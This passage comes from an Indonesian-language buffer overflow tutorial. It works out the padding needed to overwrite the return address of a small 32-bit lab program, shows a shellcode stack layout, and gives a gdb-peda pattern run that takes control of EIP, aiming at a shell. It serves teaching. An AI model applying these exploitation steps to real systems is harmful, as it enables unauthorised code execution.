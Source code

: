 ```
   0x0804847d <+39>:	mov    eax,0x0
   0x08048482 <+44>:	leave  
   0x08048483 <+45>:	ret    
End of assembler dump.
```
- Dari address 0x0804846f diatas, didapatkan informasi jika ebp-0x20, yang berarti program akan mengalokasikan memory (16^1*2) = 32byte sesuai dengan sourcecode diatas yaitu ``char buffer[32]`` dan pada saat mengalokasikan memory tersebut akan ada penambahan 4byte untuk override EBP, maka dibutuhkan 32byte+4byte supaya dapat sampai ke alamat return address.

Sekarang saya akan memberikan gambaran, tentang konsep yang akan saya gunakan untuk memanipulasi program diatas agar mendapatkan akses shell dari program yang sedang berjalan diatas, kembali ke konsep layout memory stack.

```
# Layout memory stack (x86)

(Low Address)
	  ^	[	Shellcode		] <--------------------------------------
	  |	---------------------------------					|
	  |	[	Local variable 		]-------|				|
	  |	---------------------------------	|--> Padding - len(Shellcode)	|
	  |	[	Saved EBP 		]-------|				|
	  |	---------------------------------					|
	  |	[	Return address 		]----------------------------------------				
	  |	---------------------------------
	  |	[	 			]
	  |	[	STACK FRAME MAIN 	]
	  |	[	 			]
	  |	---------------------------------
```
- Dari konsep diatas, kita awali dengan memenuhi ``local variable`` sampai ``saved ebp``, dengan padding atau junk sehingga setelah sampai ``return address`` program akan meneksekusi ``shellcode`` yang sudah kita buat.

Sekarang kita akan melakukan pengecekan kembali, apakah benar padding yang kita butuhkan untuk sampai return address adalah 36byte, karna program dicompile 32bit maka kita dapat menggunakan cara berikut.
```
{ Saat program meminta inputan kita akan mencoba memberikan inputan 40byte, agar terjadi memory corruption }

gdb-peda$ pattern create 40
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
gdb-peda$ run
Starting program: /home/me/Documents/buffer/simplebuff 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffd418 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa\n")
EDX: 0x40 ('@')
ESI: 0xf7fa0000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41412941 ('A)AA')
ESP: 0xffffd440 --> 0xa ('\n')
EIP: 0x61414145 ('EAAa')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x61414145
[------------------------------------stack-------------------------------------]
0000| 0xffffd440 --> 0xa ('\n')
```